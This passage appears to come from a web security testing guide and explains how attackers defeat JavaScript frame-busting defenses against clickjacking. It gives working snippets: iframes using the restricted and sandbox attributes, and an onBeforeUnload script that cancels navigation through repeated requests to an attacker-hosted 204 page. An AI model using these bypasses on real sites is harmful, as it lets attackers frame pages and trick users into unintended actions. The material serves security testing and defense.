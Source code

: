 ### Disabling JavaScript

* Since these type of client side protections relies on JavaScript frame busting code, if the victim has JavaScript disabled or it is possible for an attacker to disable JavaScript code, the web page will not have any protection mechanism against clickjacking.
* There are three deactivation techniques that can be used with frames:
  * Restricted frames with Internet Explorer: Starting from IE6, a frame can have the "security" attribute that, if it is set to the value "restricted", ensures that JavaScript code, ActiveX controls, and re-directs to other sites do not work in the frame.
  ```html
  <iframe src="http://target site" security="restricted"></iframe>
  ```
  * Sandbox attribute: with HTML5 there is a new attribute called “sandbox”. It enables a set of restrictions on content loaded into the iframe. At this moment this attribute is only compatible with Chrome and Safari.
  ```html
  <iframe src="http://target site" sandbox></iframe>
  ```

## OnBeforeUnload Event

* The `onBeforeUnload` event could be used to evade frame busting code. This event is called when the frame busting code wants to destroy the iframe by loading the URL in the whole web page and not only in the iframe. The handler function returns a string that is prompted to the user asking confirm if he wants to leave the page. When this string is displayed to the user is likely to cancel the navigation, defeating target’s frame busting attempt.

* The attacker can use this attack by registering an unload event on the top page using the following example code:
 ```html
 <h1>www.fictitious.site</h1>
 <script>
     window.onbeforeunload = function()
     {
         return " Do you want to leave fictitious.site?";
     }
 </script>
 <iframe src="http://target site">
 ```

* The previous technique requires the user interaction but, the same result, can be achieved without prompting the user. To do this the attacker have to automatically cancel the incoming navigation request in an onBeforeUnload event handler by repeatedly submitting (for example every millisecond) a navigation request to a web page that responds with a _"HTTP/1.1 204 No Content"_ header.

<br>_204 page:_
```php
<?php
    header("HTTP/1.1 204 No Content");
?>
```
_Attacker's Page_
```js
<script>
    var prevent_bust = 0;
    window.onbeforeunload = function() {
        prevent_bust++;
    };
    setInterval(
        function() {
            if (prevent_bust > 0) {
                prevent_bust -= 2;
                window.top.location = "http://attacker.site/204.php";
            }
        }, 1);
</script>
```